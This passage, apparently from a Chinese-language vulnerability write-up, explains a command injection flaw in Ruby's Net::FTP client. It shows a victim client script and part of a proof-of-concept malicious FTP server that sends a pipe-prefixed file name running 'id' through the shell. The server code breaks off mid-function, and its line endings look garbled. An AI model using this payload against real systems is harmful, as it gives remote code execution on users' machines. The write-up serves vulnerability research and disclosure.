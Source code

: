 ```
require 'net/ftp'
host = '172.17.0.4'
port = 2121

Net::FTP.const_set('FTP_PORT',port)
Net::FTP.open(host) do |ftp|
 ftp.login
 fileList = ftp.nlst('*')
 fileList.each do |file|
       ftp.gettextfile(file)
 end
end
```

我们的服务器需要给`NLIST`响应包含我们要执行的命令的文件名。由于没有对提供的文件名进行验证或清洗，它将会直接传递给`open`函数，并执行命令。唯一需要注意的是我们的**“文件名”**需要从头开始`|`。

下面的PoC服务器代码不是您见过的最好的Ruby代码，但足以触发此漏洞并产生RCE。服务器需要模拟FTP连接的**握手**。这使得客户认为它正在连接到一个真实的FTP服务器，并且尽量让客户端请求一个文件列表。

```
require 'socket'
host = '172.17.0.4'
port = 2121
hostsplit = host.tr('.',',')

server = TCPServer.new port

loop do
 Thread.start(server.accept) do |client|
   client.puts "220 Attack FTPrn"
   r = client.gets
   puts r
   client.puts "331 password please - version checkrn"
   r = client.gets
   puts r
   client.puts "230 User logged inrn"
   r = client.gets
   puts r
   client.puts "230 more data please!rn"
   r = client.gets
   puts r
   client.puts "230 more data please!rn"
   r = client.gets
   puts r
   wait = true
   psv = Thread.new do
       pserver = TCPServer.new 23461
       Thread.start(pserver.accept) do |pclient|
           while wait do
           end
           pclient.puts "|echo$`{`IFS`}`$(id)$`{`IFS`}`&gt;pangrn"
           pclient.close
       end
   end

   sleep 1

   client.puts "227 Entering Passive Mode ("+hostsplit+",91,165)rn"
   r = client.gets
   puts r

   psv.join

```